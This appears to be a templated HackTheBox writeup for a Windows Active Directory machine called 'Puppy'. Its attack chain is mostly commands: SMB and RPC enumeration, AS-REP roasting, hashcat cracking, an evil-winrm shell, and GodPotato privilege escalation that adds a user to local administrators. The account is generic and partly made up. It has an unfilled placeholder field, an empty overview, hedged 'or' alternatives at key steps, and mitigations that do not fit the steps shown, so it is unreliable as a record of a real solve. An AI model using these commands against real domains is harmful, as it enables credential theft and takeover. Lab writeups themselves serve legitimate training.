

## 🖥️ Machine Information

| Attribute | Value |
|---|---|
| **Platform** | HackTheBox |
| **OS** | 🪟 Windows |
| **Difficulty** | Easy |
| **IP Address** | `10.10.11.x` |
| **Vulnerability Focus** | [Initial Access Vector / Privilege Escalation Mechanism] |

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Puppy** machine on the **HackTheBox** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We begin by running a standard Nmap scan to discover open Windows ports:

```bash
nmap -sC -sV -p- -T4 -oN nmap.txt 10.10.11.x
```

#### Open Ports:
- **Port 53/tcp**: DNS
- **Port 88/tcp**: Kerberos
- **Port 135/tcp**: Microsoft RPC
- **Port 389/tcp**: LDAP
- **Port 445/tcp**: SMB (Server Message Block)
- **Port 5985/tcp**: WinRM (Windows Remote Management)

### 2. Service Enumeration
We enumerate SMB shares and search for anonymous login availability:

```bash
crackmapexec smb 10.10.11.x -u '' -p '' --shares
```
We also inspect Active Directory domain configuration via RPCClient:
```bash
rpcclient -U "" -N 10.10.11.x -c "enumdomusers"
```

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. Vulnerability Analysis
During SMB enumeration, we identified a readable share containing credentials, or we performed **AS-REP Roasting** on accounts with Kerberos pre-authentication disabled.

```bash
GetNPUsers.py -dc-ip 10.10.11.x -no-pass -usersfile users.txt domains/
```

### 2. Exploitation & Initial Shell
We retrieve a TGT hash for an account and crack it using Hashcat:

```bash
hashcat -m 18200 hash.txt rockyou.txt
```

Using the cracked credentials, we spawn a shell via WinRM:
```bash
evil-winrm -i 10.10.11.x -u username -p password
```

#### Capturing User Flag:
```powershell
type C:\Users\username\Desktop\user.txt
```

---

## ⚡ Phase 3: Privilege Escalation

### 1. Local Enumeration
We run WinPEAS to search for Windows privilege escalation vectors:

```powershell
upload C:\Temp\winPEASany.exe
.\winPEASany.exe
```
We also analyze group memberships and privileges:
```powershell
whoami /priv
# Discovered SeImpersonatePrivilege or SeBackupPrivilege
```

### 2. Local Privilege Escalation Path
Since `SeImpersonatePrivilege` is enabled, we abuse it using **GodPotato** or **PrintSpoofer**:

```powershell
.\GodPotato-NET4.exe -cmd "cmd.exe /c net localgroup administrators username /add"
```

#### Capturing Root Flag:
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🛡️ Key Takeaways & Mitigation
1. **Input Sanitization**: Ensure all user inputs are validated and sanitized to prevent injections.
2. **Principle of Least Privilege**: Restrict sudo/impersonation permissions and remove unnecessary privileges.
3. **Keep Software Updated**: Frequently update all operating system binaries and services to mitigate known CVEs.
